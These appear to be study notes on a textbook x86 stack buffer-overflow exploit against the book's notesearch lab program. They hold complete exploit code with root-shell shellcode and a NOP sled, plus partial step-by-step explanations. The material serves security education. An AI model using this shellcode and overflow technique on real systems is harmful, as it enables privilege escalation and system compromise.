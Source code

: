 # x86

&#x20; _**hacking: the art of exploitation**_

{% code title="exploit_notesearch.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";

int main(int argc, char *argv[]) {
 unsigned int i, *ptr, ret, offset=270;
 char *command, *buffer;
 
 command = (char *) malloc(200);
 
 bzero(command, 200); // Zero out the new memory.
 
 strcpy(command, "./notesearch \'"); // Start command buffer.
 buffer = command + strlen(command); // Set buffer at the end.
 
 if(argc > 1) // Set offset.
  offset = atoi(argv[1]);
  
 ret = (unsigned int) &i - offset; // Set return address.
 
 for(i=0; i < 160; i+=4) // Fill buffer with return address.
 *((unsigned int *)(buffer+i)) = ret;
 
 memset(buffer, 0x90, 60); // Build NOP sled.
 memcpy(buffer+60, shellcode, sizeof(shellcode)-1);
 
 strcat(command, "\'");
 system(command); // Run exploit.
 free(command);
}
```
{% endcode %}

The exploit above displays a simple buffer overflow exploit for the x86 architecture.

> This exploit will only work with architecture that have a stack growing downwards (to lower memory addresses).

#### Explanation

1. Shellcode string
   * ...
2. Set return address (estimated)

```c
ret = (unsigned int) &i - offset; // Set return address.
```

Set the return address by subtracting a guessed offset value from the current stack location. This calculates a possible lower memory location that may land in the NOP sled when the `notesearch` program is executed. Keep in mind that a subtraction is used instead due to the stack growing downwards.

3. Fill buffer space with return address
   * This is performed in hopes of overwriting the `EIP` (instruction pointer) with the return address of our choice
   * to trick the CPU into executing malicious code

```c
 for(i=0; i < 160; i+=4) // Fill buffer with return address.
  *((unsigned int *)(buffer+i)) = ret;
```

4. Build NOP sled and append shellcode

```c
memset(buffer, 0x90, 60); // Build NOP sled.
memcpy(buffer+60, shellcode, sizeof(shellcode)-1);
```

...
